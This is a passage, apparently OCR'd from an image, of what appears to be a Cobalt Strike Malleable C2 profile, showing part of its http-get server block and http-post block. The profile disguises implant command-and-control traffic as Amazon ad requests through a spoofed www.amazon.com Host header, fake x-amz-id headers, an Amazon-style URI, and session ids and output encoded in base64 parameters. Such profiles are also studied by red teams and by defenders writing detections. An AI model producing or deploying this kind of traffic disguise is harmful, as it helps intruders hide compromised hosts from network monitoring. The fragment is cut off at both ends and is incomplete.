 ```
header "Server" "Server";

header "x-amz-id-1" "THKUYEZKCKPGY5T42PZT";

header "x-amz-id-2" "a21yZ2xrNDNtdGRsa212bGV3YW85amZuZW9ydG5rZmRuZ2tmZGl4aHRvNDVpbgo=";

header "X-Frame-Options" "SAMEORIGIN";

header "Content-Encoding" "gzip";

output {

print;

}

}

}

http-post {

set uri "/N4215/adj/amzn.us.sr.aps";

client {

header "Accept" "*/*";

header "Content-Type" "text/xml";

header "X-Requested-With" "XMLHttpRequest";

header "Host" "www.amazon.com";

parameter "sz" "160x600";

parameter "oe" "oe=ISO-8859-1;";

id {

parameter "sn";

}

parameter "s" "3717";

parameter "dc_ref" "http%3A%2F%2Fwww.amazon.com";

output {

base64;

print;

}

}

server {

header "Server" "Server";

header "x-amz-id-1" "THK9YEZJCKPGY5T42OZT";
```